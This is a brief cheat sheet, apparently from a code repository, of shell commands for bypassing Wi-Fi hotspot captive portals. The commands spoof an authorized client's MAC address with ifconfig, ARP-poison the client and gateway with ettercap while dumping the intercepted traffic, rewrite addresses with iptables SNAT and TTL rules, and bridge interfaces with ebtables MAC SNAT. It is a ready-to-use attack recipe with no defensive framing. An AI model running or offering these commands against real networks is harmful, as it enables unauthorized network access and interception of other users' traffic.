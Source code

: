 # Hotspot Captive Portal Bypass  
## MAC-based Authorization  
ifconfig wlan0 hw ether <authorized_MAC_address>  

## IP-based Authorization  
echo 1 > /proc/sys/net/ipv4/ip_forward;   
ettercap -T -q -i wlan0 -w dump -M ARP /<IP_authorized_client>/ /<IP_gateway>/;  
iptables -t nat -A OUTPUT -d ! <LAN> -j SNAT --to <IP_authorized_client>;  
iptables -t mangle -A FORWARD -d <IP_authorized_client> -j TTL --ttl-inc 1;  

## MAC+IP-based Authorization  
modprobe bridge;  
brctl addbr br0;  
brctl addif br0 <interface>;  
ebtables -t nat -A POSTROUTING -o <interface> -d <MAC_gateway> -j snat --to-source <MAC_authorized_client>;  

## Then apply method for IP-based Authorization bypass  

